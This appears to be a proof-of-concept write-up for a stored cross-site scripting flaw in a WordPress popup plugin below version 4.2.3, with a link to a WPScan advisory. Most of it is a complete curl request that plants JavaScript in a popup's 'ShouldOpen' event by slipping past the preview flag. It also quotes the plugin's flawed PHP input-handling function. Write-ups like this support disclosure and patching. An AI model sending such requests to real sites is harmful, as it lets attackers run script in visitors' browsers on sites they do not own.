 # description

 WordPress Sites Using Plugin Vulnerability[XSS]

 #version
 <4.2.3

 # poc
 ```
1) Create a popup using the plugin
2) Run the following curl command, switching `$POPUPID` with that popup's ID:

```
curl --url 'http://vulnerable-site.tld/' --data 'sgpb-is-preview=1&blah[name]=sgpb-is-preview&blah[value]=0&post_ID=$POPUPID&sgpb-target%5B0%5D%5B0%5D%5Bparam%5D=everywhere&sgpb-type=html&sgpb-is-active=checked&sgpb-events%5B0%5D%5B0%5D%5Bparam%5D=load&sgpb-events%5B0%5D%5B0%5D%5Bvalue%5D=&sgpb-behavior-after-special-events%5B0%5D%5B0%5D%5Bparam%5D=contact-form-7&sgpb-behavior-after-special-events%5B0%5D%5B0%5D%5Boperator%5D=redirect-url&sgpb-behavior-after-special-events%5B0%5D%5B0%5D%5Bvalue%5D=https%3A%2F%2Fexample.com&sgpb-popup-z-index=9999&sgpb-popup-themes=sgpb-theme-1&sgpb-overlay-color=&sgpb-overlay-opacity=0.8&sgpb-content-custom-class=sg-popup-content&sgpb-esc-key=on&sgpb-enable-close-button=on&sgpb-close-button-delay=0&sgpb-close-button-position=bottomRight&sgpb-button-position-top=&sgpb-button-position-right=9&sgpb-button-position-bottom=9&sgpb-button-position-left=&sgpb-button-image=&sgpb-button-image-width=21&sgpb-button-image-height=21&sgpb-border-color=%23000000&sgpb-border-radius=0&sgpb-border-radius-type=%25&sgpb-button-text=Close&sgpb-overlay-click=on&sgpb-popup-dimension-mode=responsiveMode&sgpb-responsive-dimension-measure=auto&sgpb-width=640px&sgpb-height=480px&sgpb-max-width=&sgpb-max-height=&sgpb-min-width=120px&sgpb-min-height=&sgpb-copy-to-clipboard-message=Copied+to+Clipboard%21&sgpb-open-animation-effect=No+effect&sgpb-close-animation-effect=No+effect&sgpb-enable-content-scrolling=on&sgpb-popup-order=0&sgpb-popup-delay=0&sgpb-ShouldOpen=alert%28document.domain%29%3B&sgpb-WillOpen=&sgpb-DidOpen=&sgpb-ShouldClose=&sgpb-WillClose=&sgpb-DidClose=&sgpb-css-editor='
```

3) Visit the site
```

https://wpscan.com/vulnerability/cdb3a8bd-4ee0-4ce0-9029-0490273bcfc8/


# Vulnerability code by WordPress
```
public static function parsePopupDataFromData($data)
    {
        $popupData = array();
        $data = apply_filters('sgpbFilterOptionsBeforeSaving', $data);
        foreach ($data as $key => $value) {
            if ( !is_array( $value ) ) {
                //Sanitize URL to avoid 404 error
                if ( strpos( $key, '-url' ) === false )                
                    $value = sanitize_text_field( $value );
                else
                    $value = wp_sanitize_redirect( $value );    
            }
            if (strpos($key, 'sgpb') === 0) {                
                $popupData[$key] = $value;
            }
            if (is_array($value) && isset($value['name']) && strpos($value['name'], 'sgpb') === 0) {
                $popupData[$value['name']] = sanitize_text_field( $value['value'] );
            }
            else if (is_array($value) && isset($value['name']) && strpos($value['name'], 'post_ID') === 0) {
                $popupData['sgpb-post-id'] = (int) sanitize_text_field( $value['value'] );
            }
        }
        return $popupData;
    }
```
